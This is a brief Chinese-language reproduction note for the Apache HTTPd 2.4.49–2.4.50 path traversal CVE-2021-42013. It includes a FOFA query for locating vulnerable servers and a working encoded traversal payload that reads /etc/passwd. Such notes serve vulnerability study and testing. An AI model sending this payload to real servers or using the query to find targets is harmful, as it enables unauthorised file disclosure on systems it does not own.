 # Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## FOFA

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251553798.png)

验证POC

```
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![image-20220525155420331](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251554399.png)